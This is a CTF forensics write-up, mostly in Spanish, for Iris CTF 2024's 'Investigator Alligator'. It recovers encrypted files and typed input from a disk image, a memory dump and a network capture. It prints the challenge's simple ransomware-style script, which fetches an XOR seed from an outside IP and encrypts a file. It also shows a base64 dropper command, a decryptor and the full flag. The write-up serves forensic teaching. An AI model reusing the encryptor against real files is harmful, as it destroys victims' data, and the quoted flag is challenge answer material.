




# Investigator Alligator (Iris CTF 2024 - Forensics)

## Challenge
JoSchmoTechCo's server got hit! The folder containing their super duper important company secrets is all locked up. Luckily, the sysadmin was smart enough to be capturing the network traffic and take a memory sample when the whole ordeal went down.

The victim user, in a flurry of blind panic, also typed something after the damage was already done. We have an image of the disk after the event. Can you recover their files and find out what the victim typed?

> Note: the malware contained is rather innocuous, but it's still a bad idea to run untrusted programs off the Internet. Please don't do that.

### Resource
Download option 1 - 
[investigator-alligator.gz](https://shawndxyz.sjc1.vultrobjects.com/ctf/2024.irisctf/investigator-alligator.gz)

Download Option 2 (Mirror) - 
[Mirror investigator-alligator.gz](https://cdn.2024.irisc.tf/investigator-alligator.gz)

**NOTA**: No se incluye el recurso en el repositorio debido a su tamaño.

```bash
ls -lah ./recurso
total 31G
drwxr-xr-x 2 jc jc 4,0K ene  7 12:51 .
drwxr-xr-x 3 jc jc 4,0K ene  7 12:51 ..
-rw-r--r-- 1 jc jc  25G ene  7 11:02 investigator-alligator
-rw-r--r-- 1 jc jc 6,4G ene  7 11:05 investigator-alligator.gz
``````

## Solve manual

### Primera parte de la flag

Extraemos el archivo investigator-alligator.gz:

```bash
7z x ./recurso/investigator-alligator.gz -o./recurso/
```

El archivo contiene datos formateados en el filesystem ext4:

```bash
file investigator-alligator
investigator-alligator: Linux rev 1.0 ext4 filesystem data, UUID=35fa8404-f9cc-45be-b6a5-22351ef2f486 (needs journal recovery) (extents) (64bit) (large files) (huge files)
```

Montamos el filesystem

```bash
sudo mkdir /mnt/investigator-alligator && sudo mount ./recurso/investigator-alligator /mnt/investigator-alligator
```

- En root/LiME/src/ encontramos sample.mem, el dump de memoria mencionado en la descripción del challenge.

- En root/capture encontramos network, la captura de tráfico de red mencionada en la descripción del challenge.

En /home/stephen se encuentra el archivo rswenc.py con el contenido:

```py
#!/usr/bin/env python3
import random
import socket
import sys
import time
f_if = sys.argv[1]
f_of = sys.argv[2]
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect(("149.28.14.135", 9281))
seed = s.recv(1024).strip()
s.close()
random.seed(seed)
with open(f_if, "rb") as f:
	data = f.read()
stream = random.randbytes(len(data))
encrypted = bytearray()
for i in range(len(data)):
	encrypted.append(data[i] ^ stream[i])
with open(f_of, "wb") as f:
	f.write(encrypted)
```

Este script utiliza una operación XOR para cifrar un archivo de entrada y guardar el resultado en un archivo de salida.

`s.connect(("149.28.14.135", 9281))`: Establece una conexión con el servidor en la dirección IP "149.28.14.135" y el puerto 9281. Luego recibe una semilla del servidor.

`random.seed(seed)`: Inicializa el generador de números pseudoaleatorios con la semilla recibida.

`for i in range(len(data)): encrypted.append(data[i] ^ stream[i])`: Realiza la operación XOR byte a byte entre el contenido del archivo de entrada y la secuencia de bytes aleatorios (stream), y guarda el resultado en el objeto bytearray.

Siendo una operación XOR, conociendo el valor recibido en seed, se podrá restaurar el archivo de entrada a su estado original.
Para conocer el valor seed, lo buscaremos en la captura.

```bash
tshark -r network -Y "tcp.port == 9281" -T fields -e data | xxd -r -p
```



Creamos un script rwsdec.py con el mismo contenido que rwsenc.py, eliminando la conexión por sockets y  cambiando la linea `seed =` por `seed = "eng0jieh7ahga7eidae6taebohhaicaeraef5ahng8ohb2Tho3ahz7ojooXeixoh0thoolung7eingietai8hiechar6ahchohn6uwah2Keid5phoil7Oovool3Quai"`

Quedando de la siguiente forma:
`rwsdec.py`:

```bash
#!/usr/bin/env python3
import random
import sys

f_if = sys.argv[1]
f_of = sys.argv[2]

seed = "eng0jieh7ahga7eidae6taebohhaicaeraef5ahng8ohb2Tho3ahz7ojooXeixoh0thoolung7eingietai8hiechar6ahchohn6uwah2Keid5phoil7Oovool3Quai"

random.seed(seed)
with open(f_if, "rb") as f:
	data = f.read()
stream = random.randbytes(len(data))
decrypted = bytearray()
for i in range(len(data)):
	decrypted.append(data[i] ^ stream[i])
with open(f_of, "wb") as f:
	f.write(decrypted)
```

Lo colocamos en /home/stephen y ejecutamos `python rwsdec.py encrypted.img decrypted.img`

```bash
sudo mkdir /mnt/investigator-alligator-decrypted && sudo mount ./decrypted.img /mnt/investigator-alligator-decrypted 
```



Abrimos la imagen /mnt/investigator-alligator-decrypted/data/super_duper_important_info.png y encontramos la primera parte de la flag: `irisctf{y0ure_a_r3al_m4ster_det3`

### Segunda parte de la flag

En la descripción del challenge dice que el usuario escribió algo al ser hackeado. Por lo tanto buscaremos en el dump de memoria generado por [LiME ~ Linux Memory Extractor](https://github.com/504ensicsLabs/LiME).

Abrimos el archivo /root/LiMe/src/sample.mem en un editor de texto y en la línea 4062972 encontramos:

```bash
echo "I2luY2x1ZGUgPHN0ZGlvLmg+CiNpbmNsdWRlIDx1bmlzdGQuaD4KCmludCBtYWluKCkKewoJY2hhciBidWZmZXJbMTAyNF0gPSB7MH07CgoJcHV0cygiWU9VJ1ZFIEJFRU4gUFdORUQhIik7CglwdXRzKCJXSEFUIERPIFlPVSBTQVkgSU4gUkVTUE9OU0U/Iik7CglmZ2V0cyhidWZmZXIsIDEwMjQsIHN0ZGluKTsKCglwdXRzKCJNRUFOV0hJTEUsIFRIRSBQV05FUiBHT0VTIHp6ei4uLiIpOwoJc2xlZXAoOTk5OSk7Cn0K" | base64 -d > taunt.c
```

El código fuente del programa taunt.c, luego de usar base64 -d es:

```c
#include <stdio.h>
#include <unistd.h>

int main()
{
        char buffer[1024] = {0};

        puts("YOU'VE BEEN PWNED!");
        puts("WHAT DO YOU SAY IN RESPONSE?");
        fgets(buffer, 1024, stdin);

        puts("MEANWHILE, THE PWNER GOES zzz...");
        sleep(9999);
}
```

Ya que el programa muestra *"WHAT DO YOU SAY IN RESPONSE?"* buscamos este texto, y en la línea 867206 encontramos que tal como lo indicaba el challenge, el usuario escribió:

```
YOU'VE BEEN PWNED!
WHAT DO YOU SAY IN RESPONSE?
ctive_ty_f0r_s4v1ng_0ur_d4ta}
MEANWHILE, THE PWNER GOES zzz...
```

Se encontró la segunda parte de la flag: `ctive_ty_f0r_s4v1ng_0ur_d4ta}`. Por lo tanto ya conseguimos la flag completa!


### Flag
Flag: `irisctf{y0ure_a_r3al_m4ster_det3ctive_ty_f0r_s4v1ng_0ur_d4ta}`



## Solve utilizando solve.py
### Requerimientos
El script requiere múltiples packages. La instalación de requerimientos se realiza con el siguiente comando:

```bash
pip install -r requirements.txt
```

Además requiere tener instalado [7z](https://linux.die.net/man/1/7z)

```py
# Run the 7z command to extract files
command = ["7z", "e", "-aos", output_file, capture_to_extract, f"-o{extracted_path}"]
```

### Ejecución
Se deberá ejecutar el siguiente comando:

```bash
python solve.py
```

Mostrará en el output la segunda parte de la flag y el path de la imagen que deberá ser visualizada para obtener la primera parte de la flag.

> Nota: el script descargará el recurso en caso de no estar en ./recurso.

